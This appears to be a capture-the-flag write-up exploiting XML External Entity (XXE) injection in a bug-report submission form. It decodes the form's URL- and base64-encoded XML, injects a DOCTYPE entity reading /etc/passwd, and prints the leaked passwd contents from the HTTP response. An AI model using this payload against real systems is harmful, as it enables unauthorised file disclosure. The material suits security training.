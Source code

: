   data=PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KCQk8YnVncmVwb3J0PgoJCTx0aXRsZT5UZXN0PC90aXRsZT4KCQk8Y3dlPlRFU1QgQ1dFPC9jd2U%2BCgkJPGN2c3M%2BMTA8L2N2c3M%2BCgkJPHJld2FyZD4xMDAwPC9yZXdhcmQ%2BCgkJPC9idWdyZXBvcnQ%2B

Notice that there are % in the encoded data, this is URL-encoded and below that base64.
So deocde URL -> decode base64 and we are left with our data:

ORIGINAL DATA
  <?xml  version="1.0" encoding="ISO-8859-1"?>
  		<bugreport>
  		<title>Test Title</title>
  		<cwe>TEST CWE</cwe>
  		<cvss>10</cvss>
  		<reward>1000</reward>
  		</bugreport>

We can clearly see that this is XML and should therefore investigate the possibility of XXE attacks.
I usually like to test with a simple Read File XXE POC. Below is the code needed to read /etc/passwd:
  
  <!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
  <data>&example;</data>

Lets add this to our XML data, base64 encode and then urlencode.

MALICIOUS XXE DATA
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
		<bugreport>
		<title>&example;</title>
		<cwe>TEST CWE</cwe>
		<cvss>10</cvss>
		<reward>1000</reward>
		</bugreport>

HTTP RESPONSE:
  <td>Title:</td>
  <td>root:x:0:0:root:/root:/bin/bash
  daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
  bin:x:2:2:bin:/bin:/usr/sbin/nologin
  sys:x:3:3:sys:/dev:/usr/sbin/nologin
  sync:x:4:65534:sync:/bin:/bin/sync
  games:x:5:60:games:/usr/games:/usr/sbin/nologin
  man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
  lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
  mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
  news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
  uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
  proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
  www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
  backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
  list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
  irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
  gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
  nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
  systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
  systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
  systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
  messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
  syslog:x:104:110::/home/syslog:/usr/sbin/nologin
  _apt:x:105:65534::/nonexistent:/usr/sbin/nologin
  tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
  uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
  tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
  landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
  pollinate:x:110:1::/var/cache/pollinate:/bin/false